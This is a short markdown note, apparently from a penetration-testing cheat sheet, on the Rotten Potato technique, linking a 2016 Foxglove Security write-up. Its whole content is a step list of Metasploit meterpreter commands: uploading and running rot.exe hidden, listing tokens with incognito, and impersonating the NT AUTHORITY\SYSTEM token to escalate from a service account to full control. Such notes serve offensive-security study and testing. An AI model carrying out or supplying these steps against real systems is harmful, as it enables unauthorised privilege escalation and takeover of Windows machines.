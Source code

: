 ## Rotten Potato

[https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)

Get a meterpreter and upload the rot.exe

* getuid
* getprivs
* use incognito
* list\_tokens -u
* cd c:\temp\
* execute -Hc -f ./rot.exe
* impersonate\_token "NT AUTHORITY\SYSTEM"



